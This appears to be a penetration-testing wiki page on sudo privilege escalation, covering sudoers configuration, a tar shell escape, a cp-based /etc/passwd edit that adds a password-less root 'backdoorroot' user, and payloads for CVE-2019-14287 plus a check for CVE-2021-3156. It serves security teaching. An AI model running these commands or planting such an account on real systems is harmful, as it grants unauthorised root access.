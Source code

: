 # SUDO

## Theory

`sudo` \(Super User DO\) is a program for UNIX-like computer operating systems that allows users to run programs with the security privileges of another user \(by default, the superuser\).

Unlike the similar command `su`, users must, by default, supply their own password for authentication, rather than the password of the target user. After authentication, and if the configuration file, which is typically located at `/etc/sudoers`, permits the user access, the system invokes the requested command with the target user's privileges.

Sudo users are called sudoers \( 😯 _I know right, big brains here_  🧠 \). What sudoers are allowed to do is defined in the `/etc/sudoers` configuration file. This file, owned by `root`, is supposed to be 440 \(read-only\) and should only be edited with `visudo`, `sudoedit` or `sudo -e`.

![](../../../.gitbook/assets/sudoers_config.png)

## Practice

There are many ways to escalate privileges by exploiting `sudo`, either by profiting from insecure configuration, or by exploiting the program's vulnerabilities.

### Default configurations

The `sudo -l` command can be run by sudoers to check their sudo rights. The output reflects the `/etc/sudoers` configuration that applies to the user. It should like the following \(default config for a new sudoer\).

```bash
# Format is
User johnthesudoer may run the following commands on johncomputer:
    (ALL : ALL) ALL
```

For instance, this configuration allows the `johnthesudoer` user to run any privileged command as long as `johnthesudoer`'s password is known. A privileged session can be obtained with `sudo -i`, `sudo -s`, `sudo su` or `sudo <program>`.

### Living off the land

While, the SUDO configuration can be hardened to restrict privileged execution to specific program, there are some that can be abused to bypass local security restrictions. This is called [Living off the land](living-off-the-land.md).

```bash
User johnthesudoer may run the following commands on johncomputer:
    (ALL : ALL) /bin/tar
```

The configuration above only allows sudoer `johnthesudoer` to execute `/bin/tar` as root as long as `johnthesudoer`'s password is known. The thing is tar is program that can be used to obtain a full session, hence bypassing the restrictions induced by sudoers configuration.

```bash
sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Other examples can be found on the [Living off the land](living-off-the-land.md) note.

While some programs can be used to obtain a full shell, others can be used to induce changes on the system to grant root privileges, like `/usr/bin/cp`. The following commands are used to edit the `/etc/passwd` file to add a password-less user with `root`'s uid and gid.

```bash
cp /etc/passwd /tmp/passwd.bak
echo "backdoorroot::0:0:Backdoor root:/root:/bin/bash" >> /tmp/passwd.bak
sudo /usr/bin/cp passwd.bak /etc/passwd
su -l backdoorroot
```

### CVE-2019-14287 \(\#-1\)

With SUDO running version &lt; 1.8.28, an attacker in control of a "runas ALL" sudoer account can bypass certain policy blacklists and session PAM modules by invoking sudo with a crafted user ID. 

Exploiting the bug requires sudo privileges and being able to run commands with an arbitrary user ID. This means the user's sudoers entry has to have the special value `ALL` in the "runas" specifier \(the yellow and green parts in [the doodle above](sudo.md#theory)\).

Vulnerable users can be found with the two commands below

```bash
grep -e '(\s*ALL\s*,\s*!root\s*)' /etc/sudoers
grep -e '(\s*ALL\s*,\s*\!#0\s*)' /etc/sudoers
```

The vulnerability can be exploited with one of the following payloads

```bash
sudo -u#-1 sh -p
sudo -u#4294967295 sh -p
sudo -u#$((0xffffffff)) sh -p
```

{% hint style="info" %}
**Some technical details to the vulnerability**

Sudo uses the `setresuid(2)` and `setreuid(2)` system calls to change the user ID before running the command. So if you try to enter a negative user id `-1` \(or its 32-bit unsigned equivalent `4294967295`\), `setresuid(2)` and `setreuid(2)` cannot set a negative user id and you're left with the user id sudo is running with : `0`.

Therefore `sudo -u#-1 id -u` or `sudo -u#4294967295 id -u` will actually return `uid=0` and run command as root.

More info can be found [here](https://nvd.nist.gov/vuln/detail/CVE-2019-14287)
{% endhint %}

### CVE-2021-3156 \(Baron Samedit\)

With SUDO running version &lt; 1.9.5p2, a Heap-based Buffer Overflow allows for privilege escalation to root via `sudoedit -s` and a command-line argument that ends with a single backslash character. To test if a system is vulnerable or not, the following command can be run as a non-root user.

```bash
sudoedit -s /
```

Patched versions will throw a `usage:` help message while vulnerable ones will throw the following `sudoedit:` error.

```text
$ sudoedit -s /
[sudo] password for user: 
sudoedit: /: not a regular file
```

This vulnerability can be exploited with [this exploit](https://github.com/r4j0x00/exploits/tree/master/CVE-2021-3156_one_shot), or [this one](https://github.com/worawit/CVE-2021-3156).

More info about this vulnerability can be found [here](https://nvd.nist.gov/vuln/detail/CVE-2021-3156) and [here](https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit).

## References

{% embed url="https://gtfobins.github.io/\#+sudo" caption="" %}

{% embed url="https://jamesluo-843.medium.com/exploiting-cve-2019-14287-37eac7023a4" %}

{% embed url="https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit" %}



